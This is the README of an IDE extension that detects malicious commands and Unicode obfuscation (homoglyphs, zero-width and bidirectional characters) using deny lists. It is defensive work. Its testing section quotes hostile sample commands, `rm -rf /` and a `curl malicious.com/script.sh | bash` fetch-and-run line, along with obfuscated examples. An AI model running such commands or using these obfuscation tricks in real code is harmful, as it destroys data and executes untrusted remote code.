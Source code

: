# MalCode Detector for VSCode-Cursor-Windsurf IDE

This IDE extension helps detect potentially malicious commands and Unicode obfuscation techniques in your code. It's designed to be used with VS Code and compatible editors.

## Features

-   **Real-time Scanning**: Automatically scans files upon opening and saving.
-   **Deny List Matching**: Detects known malicious commands using configurable deny lists.
-   **Unicode Obfuscation Detection**: Identifies various Unicode-based obfuscation techniques:
    -   **Homoglyphs**: Flags characters that look like other characters (e.g., Cyrillic 'а' for Latin 'a').
    -   **Invisible Characters**: Detects zero-width spaces and other non-printing characters.
    -   **Bidirectional Control Characters**: Warns about characters that can alter text rendering order.
    -   **Mixed Scripts**: Highlights lines with characters from multiple scripts (e.g., Latin and Cyrillic).
-   **Configurable**: Customize deny list paths and toggle real-time scanning through VS Code settings.

## Usage

Once installed, the "Cursor Deny List Malcode Detector" works in the background:

-   **Automatic Analysis**: Files are automatically scanned when opened or saved. If potential issues are found, VS Code will display diagnostic warnings (e.g., squiggly underlines) on the problematic lines. Hover over the underlined code to see a description of the issue.
-   **Manual Scan**: You can also manually trigger a scan for the currently active file by opening the Command Palette (`Ctrl+Shift+P` or `Cmd+Shift+P` on macOS) and running the command "Scan Current File for Malicious Patterns".
-   **Ignore File**: You can right-click a file in the VS Code Explorer and select "Ignore This File (MalCode Detector)" from the context menu. This will add the file to an ignore list, and it will no longer be scanned by the extension.
-   **Problems Panel**: Detected issues are listed in the "Problems" panel in VS Code (View > Problems).

## Configuration

You can configure the extension via VS Code settings (File > Preferences > Settings, then search for "MalCode Detector for VSCode-Cursor-Windsurf IDE"):

-   **`malcode-detector-vscode-cursor-windsurf-ide.enableRealtimeScan`**: 
    -   **Description**: Enable real-time scanning of files on open and save.
    -   **Type**: `boolean`
    -   **Default**: `true`

-   **`malcode-detector-vscode-cursor-windsurf-ide.denyListPaths`**: 
    -   **Description**: Paths to the deny list JSON files, relative to the extension's root directory. You can customize these paths if you have your own deny lists or a different directory structure.
    -   **Type**: `object`
    -   **Default**:
        ```json
        {
          "windows": "deny_lists/windows_deny_list.json",
          "macos": "deny_lists/macos_deny_list.json",
          "linux": "deny_lists/linux_deny_list.json",
          "universal": "deny_lists/universal_deny_list.json"
        }
        ```

-   **`malcode-detector-vscode-cursor-windsurf-ide.ignoredFiles`**:
    -   **Description**: A list of file paths (relative to the workspace root) to be ignored by the MalCode Detector. Files in this list will not be scanned. You can manually edit this list or use the "Ignore This File (MalCode Detector)" command from the explorer context menu.
    -   **Type**: `array`
    -   **Default**: `[]`

## Troubleshooting

-   **No diagnostics shown**: 
    -   Ensure the extension is enabled in the Extensions view.
    -   Check the VS Code "Output" panel (select "Cursor Deny List Malcode Detector" from the dropdown) for any error messages.
    -   Verify that the file type you are editing is included in the `activationEvents` in `package.json` (if you are developing the extension).
    -   Make sure your deny list paths in the settings are correct and the JSON files are valid.
-   **Performance issues**: If you experience slowdowns, especially with very large files, you can disable `cursord-malcode-detector.enableRealtimeScan` in the settings and use the "Scan Current File for Malicious Patterns" command manually.

## Release Notes

See [CHANGELOG.md](CHANGELOG.md) for detailed release notes.

## Prerequisites

-   [Node.js](https://nodejs.org/) (which includes npm)
-   [Visual Studio Code](https://code.visualstudio.com/)

## Installation and Setup (for Development)

1.  **Clone the Repository**:
    If you haven't already, clone the main project repository that contains this `ide_extension` folder.

2.  **Navigate to the Extension Directory**:
    Open your terminal and navigate to this directory:
    ```bash
    cd path/to/your/Cursur_deny_list/ide_extension
    ```

3.  **Install Dependencies**:
    Run npm to install the necessary dependencies defined in `package.json`:
    ```bash
    npm install
    ```

4.  **Compile TypeScript**:
    The extension is written in TypeScript. Compile it to JavaScript using:
    ```bash
    npm run compile
    ```
    This will typically create an `out` directory containing the compiled JavaScript files.

## Running and Testing in VS Code

1.  **Open the Extension Folder in VS Code**:
    Open the `ide_extension` folder itself as the root workspace in VS Code.

2.  **Launch the Extension Development Host**:
    -   Press `F5` (or go to "Run" > "Start Debugging").
    -   This will open a new VS Code window (the "Extension Development Host") with this extension loaded.

3.  **Verify Installation**:
    -   In the Extension Development Host window, open any text file (e.g., a shell script, a source code file, or a plain text file).
    -   The extension activates on opening or changing text documents.

4.  **Testing Functionality**:

    *   **Deny List Pattern Matching**:
        -   The extension loads deny list patterns from the `../../deny_lists/` directory (relative to the compiled extension code, typically `ide_extension/out/`). These lists contain patterns for known malicious commands.
        -   Try typing or pasting commands that are known to be malicious and should be on the deny lists (e.g., `rm -rf /`, `curl malicious.com/script.sh | bash`).
        -   You should see warnings or diagnostics displayed by VS Code for the lines containing these patterns. The specific appearance depends on how diagnostics are rendered.

    *   **Unicode Obfuscation Detection**:
        -   The extension scans for several types of Unicode obfuscation:
            -   **Homoglyphs**: Characters that look like other characters (e.g., a Cyrillic 'а' instead of a Latin 'a').
                -   Example: `echo "hellо"` (where 'о' is Cyrillic)
            -   **Invisible Characters**: Zero-width spaces or other non-printing characters that can break up commands or hide code.
                -   Example: `e\u200Bcho "hidden"` (contains a Zero Width Space)
            -   **Bidirectional Control Characters**: Characters that can alter the visual rendering order of text.
            -   **Mixed Scripts**: Lines containing characters from multiple scripts (e.g., Latin and Cyrillic) which can be an obfuscation technique.
        -   Try typing text containing these Unicode patterns.
        -   The extension should flag these issues, providing descriptions in the diagnostics.

    *   **Test Cases**:
        -   Refer to the `../../test_cases/` and `../../test_payloads/` directories in the main project for examples of malicious patterns and Unicode obfuscation techniques to test with.
        -   Copy and paste content from these files into the editor in the Extension Development Host window.

## Extension Structure (Simplified)

-   `src/extension.ts`: The main activation point for the VS Code extension.
-   `src/fileAnalyzerService.ts`: Contains the core logic for analyzing document content against deny lists and Unicode rules.
-   `src/denyListService.ts`: Handles loading, parsing, and querying the deny list patterns.
-   `src/unicodeScanner.ts`: Provides functions to detect various Unicode-based obfuscation techniques.
-   `out/`: Directory where the compiled JavaScript code is placed (after `npm run compile`). This is what VS Code runs.
-   `package.json`: Defines extension metadata, dependencies, and build scripts.

## Contributing

-   **Deny Lists**: To add or modify deny list patterns, edit the JSON files in the `Cursur_deny_list/deny_lists/` directory. Follow the existing structure and refer to `PRD.md` for guidelines.
-   **Code**: For code contributions, open the `ide_extension` folder in VS Code, make your changes, and ensure `npm run compile` runs without errors. Test thoroughly using the Extension Development Host. 

